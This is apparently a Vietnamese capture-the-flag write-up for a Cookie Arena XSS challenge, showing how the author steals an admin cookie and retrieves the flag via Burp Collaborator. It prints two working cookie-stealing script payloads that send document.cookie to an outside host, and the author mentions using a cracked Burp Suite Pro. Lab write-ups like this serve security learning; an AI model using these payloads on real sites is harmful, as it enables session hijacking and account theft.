




 ## CHALLENGE: STEAL COOKIE

 Lại là một challenge khá là hay đến từ Cookie Arena.

 

 Ở phần mô tả cũng đã nói qua là web này dính XSS, và nhiệm vụ của chúng ta là sử dụng JS để tạo ra 1 payload ăn cắp cookie của admin rồi sau đó dán vào memo để lấy flag.

 Challenge này cũng không khó, chủ yếu là mọi người phải có 1 web or server để nó trả về cookie.
 Ở đây tui có đi crack Burp Suite bản Pro nên có ```Collaborator tab```. Đừng đi méc là tui crack, plssssss.

 

 Khi vào flag chúng ta thấy 1 tham số trống, nên chắc là tham số chúng ta thêm vào để ông admin nhấn vào.
 Sau khi search google thì tui tìm được trang [github](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) nó có chứa payload để thực hiện.

 Tui chọn payload ni: ```<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>```

 Vì ren tui chọn payload nớ, vì ni theo tui nghĩ thôi, payload 1 sẽ sử dụng ở những phần comment có chứa xss, còn ở đây là URL nên chúng ta chỉ cần 1 dòng. Rứa thoi.

 Mở Burp pro lên, ở phía bên trái trên cùng mọi người chọn Burp -> Burp Collaborator Client, sau đó 1 cửa sổ sẽ hiện lên.




Mọi người chọn ```Copy to Clipboard```, nó sẽ lưu 1 sub-collaborator cho mình. Và mọi người dán vào payload ở trên, nhớ là không xóa ```http://``` nghe.
Nó sẽ ra như này ```<script>var i=new Image;i.src="http://xnoktznp673dvn9oge1rpoe79yfo3d.oastify.com/?"+document.cookie;</script>```

Rồi dán payload vào trang thôi.



Sau khi dán vào thì mọi người sẽ có 1 pop-up hiện ra. Nhưng không cần quan tâm lắm.
Mọi người mở lại tab ```Collaborator Client``` của Burp Suite, và sẽ thầy kết quả, chúng ta chú ý đến type HTTP thay vì DNS.
Click vào type HTTP và chuyển sang mục ```Request to Collaborator``` và flag xuất hiện.


And done the challenge.

## THANK YOU FOR LEARNING GUYS

## PATIENCE IS THE KEY, SO KEEP TRYING EVERYDAY, LUV U <3